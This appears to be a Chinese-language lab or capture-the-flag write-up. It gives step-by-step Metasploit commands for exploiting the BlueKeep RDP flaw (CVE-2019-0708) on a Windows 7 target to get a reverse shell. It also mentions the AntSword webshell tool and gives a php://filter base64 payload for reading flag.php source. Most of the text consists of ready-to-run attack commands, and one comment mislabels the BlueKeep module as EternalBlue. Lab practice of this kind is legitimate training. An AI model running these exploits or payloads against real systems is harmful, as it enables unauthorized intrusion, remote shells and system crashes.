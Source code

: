 # 目标三
使用 Kali 对 Win7 系统的 MS-RDP服务 **CVE-2019-0708漏洞** 进行利用，最终进入系统桌面进行截图

>注意：此实验容易导致靶机蓝屏，遇到蓝屏需重启靶机。

## 过程

```bash
msfconsole                                  # 启动MetaSploit
search 0708                                 # 查找模块
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
# 使用scanner模块探测主机是否存在cve_2019_0708漏洞
options                                     # 查看设置选项
set RHOSTS 192.168.118.203                  # 设置目标主机IP或网段
exploit                                     # 启动探测
```
扫描结果返回如：The targe is vulnerable... 证明存在CVE-2019-0708漏洞

```bash
# 使用exploit模块进行攻击

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce    # 设置ms17_010_EternalBlue攻击模块
options                                               # 查看需要设置的选项
set rhosts 192.168.118.203                            # 设置要攻击IP
set lhost 192.168.118.100
exploit/run                                           # 运行
```

需要多次尝试，或者将`targets`设置为*5*或者*2*后再次进行攻击  
遇到*蓝屏*请重启Windows虚拟机。  
成功反弹shell后的步骤同目标一

//////////////////////////////////////

# 目标四


安装蚁剑 AntSword




1. 使用 php://filter **伪协议**
直接读取flag.php的源码（绕过 PHP 执行，以 base64 编码显示内容）：

plaintext
`php://filter/read=convert.base64-encode/resource=flag.php`


原理：php://filter 可以对文件内容进行过滤处理，convert.base64-encode 会将flag.php的内容编码为 base64，避免被 PHP 解析执行，从而直接获取源码。
操作：提交后，服务器会返回一串 base64 编码字符串，将其解码即可得到flag.php的内容（包含 flag）。

<?php
    header('Content-Type: text/html; charset=utf-8');
    echo "Flag 可不会给你看哦！";
    $flag = "CTF{example_flag_12345}";
?>
